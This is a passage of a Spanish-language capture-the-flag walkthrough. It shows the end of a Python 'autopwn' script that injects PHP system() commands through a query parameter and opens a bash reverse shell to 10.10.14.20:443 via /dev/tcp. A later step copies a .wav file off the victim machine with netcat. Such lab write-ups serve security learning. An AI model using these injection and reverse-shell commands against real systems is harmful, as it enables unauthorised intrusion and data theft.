 ```python
        'Cookie': 'adminpowa=noonecares'
    }

    r = requests.get(main_url + "?html=<?php%20system(\"cp%20/bin/bash%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"chmod%20+x%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"/dev/shm/s4vitar%20-c%20'/dev/shm/s4vitar%20-i%20>%26%20/dev/tcp/10.10.14.20/443%200>%261'\");%20?>", headers=headers)

    print(r.text)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest,args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=10).wait_for_connection()

    shell.interactive()
```

Ya lo podemos lanzar con el comando 
```bash
 python3 autopwn.py 
```


> [ ! ] Notas las explicaciones paso a paso del autopwn se pueden ver en el video al minuto 1:06:21


### Investigamos la maquina {-}

Ya hemos visto una lista de archivos en el repertorio de xalvas y uno es un fichero 
```bash
 .wav 
```
. Nos lo enviamos
a nuestra maquina de atacante.

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > recov.wav
    ```

1. En la maquina victima

    ```bash
    cp /bin/nc /dev/shm/transfer
    chmod +x /dev/shm/transfer
    /dev/shm/transfer 10.10.14.20 443 < recov.wav
    ```
